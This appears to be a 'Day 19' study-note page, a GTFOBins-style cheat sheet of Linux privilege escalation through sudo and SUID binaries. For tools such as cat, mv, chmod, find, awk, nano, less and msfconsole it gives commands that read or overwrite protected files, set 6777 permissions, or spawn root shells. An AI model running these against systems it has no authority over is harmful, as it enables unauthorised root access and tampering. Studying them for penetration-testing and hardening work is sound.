 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>

### ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"


# ♦ `mv` : 
   ⇨  The `mv` command can move files from restricted file systems or with elevated privileges. If it has the SUID bit set, it can escalate privileges.


#### Command:

   • SUID :
   
   ```sh
  sudo install -m =xs $(which mv) .

  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  ./mv $TF $LFILE
  ```
• Sudo:
   ```sh
  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  sudo mv $TF $LFILE
```

### ♦ `chmod` :
   ⇨ The `chmod` command can change file permissions with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which chmod) .

  LFILE=file_to_change
  ./chmod 6777 $LFILE
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  sudo chmod 6777 $LFILE
  ```

### ♦ `install` :
     The `install` command can change permissions and execute a copy of the file with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which install) .

  LFILE=file_to_change
  TF=$(mktemp)
  ./install -m 6777 $LFILE $TF
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  TF=$(mktemp)
  sudo install -m 6777 $LFILE $TF
  ```

### ♦ `msfconsole` :
   ⇨ The `msfconsole` can spawn a Ruby interpreter to break out of restricted environments and escalate privileges.

**Commands:**
• Shell:
  ```sh
  sudo msfconsole
  msf6 > irb
  >> system("/bin/sh")
  ```
• Sudo:
  ```sh
  sudo msfconsole
  msf6 > irb
  >> system("/bin/sh")
  ```

### ♦ `nano`
   ⇨ The `nano` text editor can be exploited to spawn a shell with elevated privileges if allowed to run as superuser.

**Commands:**
• Sudo:
  ```sh
  sudo nano
  ```
  • In nano, press `Ctrl+R` then `Ctrl+X`, then type:
  ```sh
  reset; sh 1>&0 2>&0
  ```

### ♦ `less`
   ⇨ The `less` command can be used to read files with elevated privileges and can also spawn a shell.

**Commands:**
• Sudo:
  ```sh
  sudo less /etc/passwd
  ```
  • In less, type:
  ```sh
  !/bin/sh
  ```

### ♦ `find`
   ⇨ The `find` command can be used to search for files with elevated privileges and can be abused to spawn a shell.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which find) .
  ./find . -exec /bin/sh \;
  ```
• Sudo:
  ```sh
  sudo find . -exec /bin/sh \;
  ```

### ♦ `awk`
   ⇨ The `awk` command is a powerful text-processing tool that can be exploited to spawn a shell with elevated privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which awk) .
  ./awk 'BEGIN {system("/bin/sh")}'
  ```
• Sudo:
  ```sh
  sudo awk 'BEGIN {system("/bin/sh")}'
  ```

---
